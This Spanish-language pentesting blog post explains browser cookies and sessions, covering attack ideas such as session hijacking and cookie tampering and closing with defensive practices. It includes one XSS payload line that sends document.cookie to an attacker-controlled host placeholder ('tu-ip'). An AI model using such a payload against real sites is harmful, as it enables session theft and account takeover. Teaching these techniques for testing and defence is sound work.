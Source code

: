 ```yaml
---
layout: post
title: "Cookies y Sesiones: El rastro dulce (y peligroso) del navegador"
author: "l1ttl3bugc4t"
date: "2025-06-06"
tags: [Cookies, Sesiones, Seguridad Web, Pentesting, Red Team]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


Las **cookies** no solo son dulces digitales 🍪, también son una de las piezas clave para mantener sesiones, rastrear usuarios y… **atacar apps web** 😼🔥

---

## 🧠 ¿Qué es una Cookie?

Una **cookie** es un pequeño archivo que un servidor web guarda en tu navegador.  
Puede contener:
- ID de sesión
- Preferencias del usuario
- Tokens de autenticación
- Información de seguimiento (¡hola, trackers!)

---

## 📦 Tipos de Cookies

| Tipo | Descripción |
|------|-------------|
| **De sesión** | Se eliminan al cerrar el navegador |
| **Persistentes** | Tienen fecha de expiración definida |
| **HttpOnly** | No pueden ser accedidas por JavaScript |
| **Secure** | Solo se transmiten por HTTPS |
| **SameSite** | Protegen contra CSRF limitando el envío de cookies entre sitios |

---

## 🔐 ¿Qué es una sesión?

Una **sesión** es el estado temporal que mantiene el servidor sobre un usuario autenticado.  
Generalmente se identifica mediante un **cookie de sesión**, como:

```
sessionid=QwErTy1234567890
```

---

## 🧪 ¿Qué puedes hacer con cookies en un pentest?

### 1. **Robo de sesión (Session Hijacking)**

Si capturas la cookie de sesión puedes suplantar al usuario.  
Ej: a través de un XSS que haga:

```javascript
document.location='http://tu-ip?cookie='+document.cookie;
```

---

### 2. **Fuerza bruta de cookies**

Algunos sitios generan cookies con patrones predecibles o codificados en base64.  
Puedes decodificar y manipular valores como:

```
admin=false → admin=true
```

---

### 3. **Cookie tampering / manipulación**

Cookies mal protegidas pueden permitir elevar privilegios, cambiar idiomas o inyectar SQL en endpoints mal filtrados.

---

### 4. **Análisis de atributos inseguros**

Busca cookies **sin HttpOnly** o **sin Secure** transmitidas por HTTP:  
¡son carne de cañón para sniffing con Wireshark o mitmproxy!

---

## 🛠️ Herramientas útiles

- 🧪 `Burp Suite` → Para ver, editar y repetir peticiones con cookies
- 🐍 `Python` con `requests` → Para automatizar tests de sesión
- 🔎 `Wireshark` → Para capturar cookies en tráfico sin cifrar
- 🔐 `cookie-parser` (Node.js) → Si estás auditando código backend

---

## 🔐 Buenas prácticas (para defender)

- Usa `Secure` y `HttpOnly`
- Implementa `SameSite=Strict` si no hay login entre sitios
- Expira la cookie al cerrar sesión
- Regenera el ID de sesión tras iniciar sesión
- No almacenes datos sensibles directamente en cookies

---

## 🚀 Conclusión

Las cookies no son peligrosas en sí mismas, pero mal usadas pueden ser el **punto de entrada perfecto** para un atacante astuto.  
Como l1ttl3bugc4t… ¡siempre observa los snacks que te deja el servidor! 🍪👁️‍🗨️

> ✨ _"Una sesión es confianza temporal. Una cookie mal hecha... es traición."_ — **l1ttl3bugc4t**

---
